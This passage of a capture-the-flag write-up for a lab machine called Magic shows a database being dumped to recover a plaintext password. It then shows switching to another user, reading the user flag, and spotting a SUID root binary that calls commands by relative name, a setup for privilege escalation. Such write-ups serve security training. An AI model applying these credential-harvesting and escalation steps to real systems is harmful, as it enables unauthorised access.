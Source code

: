 
6. Dump the contents of the database using mysqldump and we find another password.

    www-data@ubuntu:/tmp$ mysqldump Magic -u theseus -p
      Enter password:
      -- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
      --
      -- Host: localhost    Database: Magic
      -- ------------------------------------------------------
      ..
      INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');

    SSH is only possible with public key, so change user with 'su theseus' to grab user.txt and add your public key to authorized_keys

    www-data@ubuntu:/tmp$ su theseus
      Password:
    theseus@ubuntu:~$ id
      uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
    theseus@ubuntu:~$ cat user.txt
      87a9eb3d4c4b7c0a77f9acdf124eed65


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Basic enumeration with linPEAs is sparse, but /bin/sysinfo is readable and stands out from the crowd.

    [+] Readable files belonging to root and readable by me but not world readable
      -rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo


   Running the program give us system information. To know exactly how we dig deeper with strings and find following commands:

    theseus@ubuntu:/bin$ strings sysinfo
      ..
      ====================Hardware Info====================
      lshw -short
      ====================Disk Info====================
      fdisk -l
      ====================CPU Info====================
      cat /proc/cpuinfo
      ====================MEM Usage=====================
      free -h


   Try to run all the command manually and we notice that "fdisk" won't print any output due to low privs. Root is probably needed,
   although this data got printed when executing "sysinfo".
